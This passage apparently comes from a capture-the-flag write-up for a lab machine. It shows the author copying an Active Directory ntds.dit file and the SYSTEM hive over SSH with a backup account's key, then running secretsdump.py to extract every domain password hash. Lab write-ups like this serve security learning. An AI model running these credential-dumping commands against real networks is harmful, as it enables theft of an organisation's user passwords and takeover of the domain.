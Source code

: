 ![w](/assets/img/attachments/voleur-20.png)
I found the `ntds.dit` file, which contains all Active Directory user password hashes and can be dumped using the SYSTEM hive.
Now we need to download ntds.dit and SYSTEM from registry keys
```bash
scp -i id_rsa -P 2222 svc_backup@10.10.11.76:"/mnt/c/IT/Third-Line\ Support/Backups/Active\ Directory/ntds.dit" ~/Downloads/

scp -i id_rsa -P 2222 svc_backup@10.10.11.76:"/mnt/c/IT/Third-Line\ Support/Backups/registry/SYSTEM" ~/Downloads/

```
And final command🥳
```bash
secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
```